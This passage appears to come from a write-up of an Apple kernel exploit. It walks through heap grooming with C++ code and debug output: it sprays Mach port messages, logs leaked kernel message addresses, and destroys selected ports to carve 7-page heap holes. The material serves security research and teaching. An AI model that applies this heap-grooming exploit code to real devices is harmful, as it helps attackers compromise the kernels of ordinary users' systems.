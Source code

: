 ```cpp
    //helper; set signature
    memset(data, 0x81, msg_size);
    #endif

    for (int i = 0; i < MACH_PORT_QLIMIT_LARGE; i++) {  //MACH_PORT_QLIMIT_LARGE = (1024)
        kern_return_t ret = send_message(spray, data, msg_size);
        if (ret) {
            printf("[-] Failed to send message\n");
            goto err;
        }
    }

    #if ENABLE_HELPER
    //helper; obtain msgdata_kptr 
    uint64_t kmsgdata_kptr = find_kmsgdata_from_port(spray);
    INFO("spray(port=0x%x)'s msgdata_kptr = 0x%llx\n", spray, kmsgdata_kptr);
    // getchar();
    //
    #endif
```

When we ran up to this point, kernel message addresses for each group of 10 ports — composed of **0x72 or 0x74** buffers — were as follows.

From **saved_ports[6]** onward, it can be observed that kernel heap allocations are being served starting at **0xffffffe0cXXXXXXX**.

```cpp
[*] Doing stage 0 heap setup
[*] saved_ports[0](port=0x1603)'s msgdata_kptr = 0xffffffe02cff7048
[*] saved_ports[1](port=0x1703)'s msgdata_kptr = 0xffffffe02d9eb048
[*] saved_ports[2](port=0x1803)'s msgdata_kptr = 0xffffffe02e3df048
[*] saved_ports[3](port=0x2703)'s msgdata_kptr = 0xffffffe02edd3048
[*] saved_ports[4](port=0x2603)'s msgdata_kptr = 0xffffffe02f7c7048
[*] saved_ports[5](port=0x1903)'s msgdata_kptr = 0xffffffe0301bb048
[*] saved_ports[6](port=0x1a03)'s msgdata_kptr = 0xffffffe0c395b048
[*] saved_ports[7](port=0x2503)'s msgdata_kptr = 0xffffffe0c434f048
[*] saved_ports[8](port=0x2403)'s msgdata_kptr = 0xffffffe0c4d43048
[*] saved_ports[9](port=0x1b03)'s msgdata_kptr = 0xffffffe0c5737048
```

Next, free six previously allocated ports: **`saved_ports[0, 2, 4, 5, 7, 9]`**.

Intermittently free six ports to ensure that when another process allocates, those freed slots will be used. 

Since it won't make allocations smaller than 8 pages going forward, the idea is to create 7-page holes so that any small allocations (≤7 pages) are steered into those holes.

```cpp
// we'll never do allocations smaller than 8 pages, so create some 7 page holes so the system can do small allocations there and leave us in peace
    mach_port_destroy(mach_task_self(), saved_ports[0]);
    mach_port_destroy(mach_task_self(), saved_ports[2]);
    mach_port_destroy(mach_task_self(), saved_ports[4]);
    mach_port_destroy(mach_task_self(), saved_ports[5]);
    mach_port_destroy(mach_task_self(), saved_ports[7]);
    mach_port_destroy(mach_task_self(), saved_ports[9]);
```
